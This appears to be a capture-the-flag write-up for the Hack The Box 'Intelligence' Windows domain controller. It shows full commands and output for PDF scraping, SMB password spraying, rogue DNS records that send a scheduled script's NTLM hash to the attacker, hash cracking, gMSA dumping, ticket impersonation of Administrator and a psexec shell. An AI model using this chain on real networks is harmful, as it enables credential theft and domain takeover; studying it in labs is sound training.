


# Intelligence

- Target Machine: 10.10.10.248

## Enumeration

### nmap scan

```bash
# Nmap 7.92SVN scan initiated Wed Sep 22 21:07:48 2021 as: nmap -sC -sV -oN nmap/initial 10.10.10.248
Nmap scan report for 10.10.10.248
Host is up (0.044s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Intelligence
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-09-23 02:22:31Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
|_ssl-date: 2021-09-23T02:23:53+00:00; +7h14m19s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
|_ssl-date: 2021-09-23T02:23:53+00:00; +7h14m19s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2021-09-23T02:23:53+00:00; +7h14m19s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
|_ssl-date: 2021-09-23T02:23:52+00:00; +7h14m18s from scanner time.
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h14m18s, deviation: 0s, median: 7h14m18s
| smb2-time: 
|   date: 2021-09-23T02:23:12
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
```

### Gobuster scan

```bash
/documents            (Status: 301) [Size: 153] [--> http://10.10.10.248/documents/]
/.                    (Status: 200) [Size: 7432]
/Documents            (Status: 301) [Size: 153] [--> http://10.10.10.248/Documents/]
/DOCUMENTS            (Status: 301) [Size: 153] [--> http://10.10.10.248/DOCUMENTS/]
```

### Website analysis

Inside the website hosted on port 80 we can find the following email address: `contact@intelligence.htb`.
We can also see that this website contains some files in the directory `/documents` with an associated date.

### Document enumeration

We can write a simple python script that enumerates the documents found on this website

```py
import requests as req
from os import mkdir

try:
    mkdir("Found_Docs")
except:
    pass

found_doc_lens = set()

for year in range(2015, 2020):
    for month in range(1, 13):
        for day in range(1, 32):
            
            test_doc = f"{year}-{str(month).zfill(2)}-{str(day).zfill(2)}-upload.pdf"

            print(f"[*] Looking for /documents/{test_doc}...\r", end="")

            r = req.get(f"http://10.10.10.248/documents/{test_doc}")
            
            if r.status_code == 200:
                doc_len = r.headers['Content-Length']
                print(f"[+] Found document /documents/{test_doc} - Content-Length: {doc_len}")

                with open(f"Found_Docs/{test_doc}", "wb") as f:
                    f.write(r.content)
```

After downloading every found PDF with the script, we can see that only two files contain something interesting: `2020-06-04-upload.pdf` and `2020-12-30-upload.pdf`





__Found possible credentials__
 - Username: Ted
 - Password: NewIntelligenceCorpUser9876

Since every document must have a creator, we can also enumerate the downloaded documents by checking their details using exiftool and then filter the output using a few other tools:

```bash
[exyss@exyss Found_Docs]$ exiftool * | grep Creator | sed -r 's/^Creator\s+: //' | sort -u > Found_Users.txt 

[exyss@exyss Found_Docs]$ cat Found_Users.txt 
Anita.Roberts
Brian.Baker
Brian.Morris
Daniel.Shelton
Danny.Matthews
Darryl.Harris
David.Mcbride
David.Reed
David.Wilson
Ian.Duncan
Jason.Patterson
Jason.Wright
Jennifer.Thomas
Jessica.Moody
John.Coleman
Jose.Williams
Kaitlyn.Zimmerman
Kelly.Long
Nicole.Brock
Richard.Williams
Samuel.Richardson
Scott.Scott
Stephanie.Young
Teresa.Williamson
Thomas.Hall
Thomas.Valenzuela
Tiffany.Molina
Travis.Evans
Veronica.Patel
William.Lee
```

## Bruteforcing the smb service

Now that we have a list of avaible users, we can write a bash script that runs smbmap trying to access with each one of them and the given default password:

```bash
# smb_brute.sh

while read user; do
    echo "----------------------"
    echo "Testing with $user"
    smbmap -u "$user" -p NewIntelligenceCorpUser9876 -H 10.10.10.248
done < Found_Users.txt
```

Once the script reaches the user Tiffany.Molina the output is the following, meaning that we can indeed use this user to access the `Users` disk on the smb server

```log
[+] IP: 10.10.10.248:445        Name: intelligence.htb          Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        IT                                                      READ ONLY
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
        Users                                                   READ ONLY
```

We can now access the smb server using Tiffany's credentials and smbclient. Once we login on the service, we find out that there is also a user named Ted.Graves, just like the documents we found earlier told us!

```log
[exyss@exyss Inteligence]$ smbclient //intelligence.htb/Users -U Tiffany.Molina
Enter WORKGROUP\Tiffany.Molina's password: 
Try "help" to get a list of possible commands.

smb: \> ls  

  .                                  DR        0  Mon Apr 19 03:20:26 2021
  ..                                 DR        0  Mon Apr 19 03:20:26 2021
  Administrator                       D        0  Mon Apr 19 02:18:39 2021
  All Users                       DHSrn        0  Sat Sep 15 09:21:46 2018
  Default                           DHR        0  Mon Apr 19 04:17:40 2021
  Default User                    DHSrn        0  Sat Sep 15 09:21:46 2018
  desktop.ini                       AHS      174  Sat Sep 15 09:11:27 2018
  Public                             DR        0  Mon Apr 19 02:18:39 2021
  Ted.Graves                          D        0  Mon Apr 19 03:20:26 2021
  Tiffany.Molina                      D        0  Mon Apr 19 02:51:46 2021

                3770367 blocks of size 4096. 1443370 blocks available

smb: \> cd Tiffany.Molina\Desktop\
smb: \Tiffany.Molina\Desktop\> get user.txt 

getting file \Tiffany.Molina\Desktop\user.txt of size 34 as user.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
```

## Lateral movement

After getting the user flag, we can look through the other disk that we have access to, the IT disk. In this disk we can find Ted's script

```log
[exyss@exyss Intelligence]$ smbclient //intelligence.htb/IT -U 'Tiffany.Molina'
Enter WORKGROUP\Tiffany.Molina's password: 
Try "help" to get a list of possible commands.

smb: \> ls
  .                                   D        0  Mon Apr 19 01:50:55 2021
  ..                                  D        0  Mon Apr 19 01:50:55 2021
  downdetector.ps1                    A     1046  Mon Apr 19 01:50:55 2021

                3770367 blocks of size 4096. 1454216 blocks available

smb: \> get downdetector.ps1 
getting file \downdetector.ps1 of size 1046 as downdetector.ps1 (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)

smb: \> exit

[exyss@exyss Intelligence]$ cat downdetector.ps1

### Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory 
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
    try {
        $request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
        if(.StatusCode -ne 200) {
            Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
        }
    } catch {}
}
```

As we can see, Ted's script sends a request to every subdomain connected to the AD and matches the wildcard __web*__, using his __credentials__ to login. After this, the script sends an email from Ted to Ted himself, however we don't care about this part.

We can inject our own subdomain in the AD using [krbrelayx](https://github.com/dirkjanm/krbrelayx)'s dnstools.py and then use [responder.py](https://github.com/lgandx/Responder) to listen for the incoming request from Ted's script, giving us Ted's credentials.
__ATTENTION__: Ted's script runs every ~4 minutes, so it may take a bit to get the response

```log
[exyss@exyss krbrelayx]$ python dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p NewIntelligenceCorpUser9876 -a add -r 'webGimmeYourCreds.intelligence.htb' -d {YOUR_IP} {TARGET_IP}

[-] Connecting to host...
[-] Binding to host
[+] Bind OK
/usr/share/krbrelayx/dnstool.py:241: DeprecationWarning: please use dns.resolver.Resolver.resolve() instead
  res = dnsresolver.query(zone, 'SOA')
[-] Adding new record
[+] LDAP operation completed successfully

[exyss@exyss krbrelayx]$ cd /usr/share/responder/

[exyss@exyss responder]$ sudo python Responder.py -I tun0 -A

...
[+] Listening for events...

[HTTP] NTLMv2 Client   : 10.10.10.248
[HTTP] NTLMv2 Username : intelligence\Ted.Graves
[HTTP] NTLMv2 Hash     : Ted.Graves::intelligence:6582b071ca914e25:E5A0297FED4F608F1956E795BB6B1B56:0101000000000000DFB8B93E66B1D7015C7F413759F3C73A00000000020008004B0042003900570001001E00570049004E002D0037004C004900320043004E0037004F00460054003600040014004B004200390057002E004C004F00430041004C0003003400570049004E002D0037004C004900320043004E0037004F004600540036002E004B004200390057002E004C004F00430041004C00050014004B004200390057002E004C004F00430041004C000800300030000000000000000000000000200000190F9984D94E7AD85850DE112AB57B46F5265DE35A3AFF4A6AFE2753C8396C610A0010000000000000000000000000000000000009003E0048005400540050002F007700650062006800650068006500780064002E0069006E00740065006C006C006900670065006E00630065002E006800740062000000000000000000
```

Now that we have Ted's hash, we can crack it using John The Ripper

```log
[exyss@exyss Intelligence]$ echo "Ted.Graves::intelligence:6582b071ca914e25:E5A0297FE..." > hash

[exyss@exyss Intelligence]$ john hash -w=~/Desktop/rockyou.txt 
--------------------------------------------------------------------------
Warning: detected hash type "netntlmv2", but the string is also recognized as "ntlmv2-opencl"
Use the "--format=ntlmv2-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Mr.Teddy         (Ted.Graves)
1g 0:00:00:11 DONE (2021-09-24 12:45) 0.08826g/s 954588p/s 954588c/s 954588C/s Mrz.browntillthedayidie..Morganstern
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```

## Priviledge escalation

Now that we know Ted.Graves's password is `Mr.Teddy`, we can use his account to dump the gMSA service using [gMSADumper](https://github.com/micahvandeusen/gMSADumper) to retrieve the password hash of svc_int. Once we retrieved this hash, we can use [impacket](https://github.com/SecureAuthCorp/impacket)'s AD Silver Ticket Attack to retrieve the Administrator cache.

__ATTENTION__: you'll probably need to synchronize your clock with the AD or else you'll get an error as in my case

```log
[exyss@exyss gMSADumper]$ python gMSADumper.py -u Ted.Graves -p  Mr.Teddy -d intelligence.htb -l dc.intelligence.htb
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::d170ae19de30439df55d6430e12dd621

[exyss@exyss gMSADumper]$ cd ..

[exyss@exyss scripts]$ getST.py intelligence.htb/svc_int$ -spn WWW/dc.intelligence.htb -hashes :d170ae19de30439df55d6430e12dd621 -impersonate Administrator
Impacket v0.9.24.dev1+20210906.175840.50c76958 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for user
Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)

[exyss@exyss scripts]$ sudo ntpdate 10.10.10.248
24 Sep 21:11:45 ntpdate[32354]: step time server 10.10.10.248 offset +26060.920245 sec

[exyss@exyss scripts]$ getST.py intelligence.htb/svc_int$ -spn WWW/dc.intelligence.htb -hashes :d170ae19de30439df55d6430e12dd621 -impersonate Administrator
Impacket v0.9.24.dev1+20210906.175840.50c76958 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

Now that we have the Administrator's cache, we can use it to login using impacket's psexec to login with a sysadmin shell

```
[exyss@exyss Intelligence]$ export KRB5CCNAME=Administrator.ccache

[exyss@exyss Intelligence]$ psexec.py -k intelligence.htb/Administrator@dc.intelligence.htb -no-pass

[exyss@exyss Intelligence]$ psexec.py -k intelligence.htb/Administrator@dc.intelligence.htb -no-pass
Impacket v0.9.24.dev1+20210906.175840.50c76958 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on dc.intelligence.htb.....
[*] Found writable share ADMIN$
[*] Uploading file njGiMzGh.exe
[*] Opening SVCManager on dc.intelligence.htb.....
[*] Creating service LVDV on dc.intelligence.htb.....
[*] Starting service LVDV.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1879]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>type /Users/Administrator/Desktop/root.txt
```
